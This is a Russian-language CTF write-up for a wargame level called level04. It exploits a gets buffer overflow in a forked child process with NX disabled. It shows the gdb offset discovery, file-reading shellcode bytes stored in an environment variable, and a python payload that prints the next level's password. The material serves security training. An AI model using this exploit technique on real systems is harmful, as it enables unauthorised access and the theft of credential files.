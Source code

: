 ## Level04

Данная программа создает подпроцесс, который имеет незащищенный вызов `gets` и выключенный NX. Следовательно, он уязвим к buffer-overflow attack.



Отличие этого уровня от предыдущих в том, что родительский процесс предотвращает вызовы `exec` и ему подобные в дочернем подпроцессе. Поэтому вместо запуска оболочки, нам ничего не остается, как напрямую прочитать `.pass`.

С помощью [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) получаем, что необходимый нам offset равен 156 байтов.

```
> gdb level04
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04 
[New process 8570]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 8570]
0x41326641 in ?? ()
```

Воспользуемся [этим](http://shell-storm.org/shellcode/files/shellcode-73.php) shellcode-ом. Мы могли бы записать его в стэк, однако вышеуказанный shellcode занимает 289 байта, что превосходит 156 байтов, доступных нам на стэке.

Нам нужно записать shellcode в переменную окружения и узнать её адрес с помощью вспомогательного файла:

```c
// /tmp/test.c

#include <stdio.h>
#include <stdlib.h>

int main() { printf("%p\n", getenv("SHLCODE")); }
```
и 

```sh
> export SHLCODE=$'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'
> ( cd /tmp ; gcc -m32 test.c -o bla )
> /tmp/bla
0xffffdebf
```

Итого,

```sh
> python -c 'print "a" * 156 + "\xff\xff\xde\xbf"[::-1]' | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
```


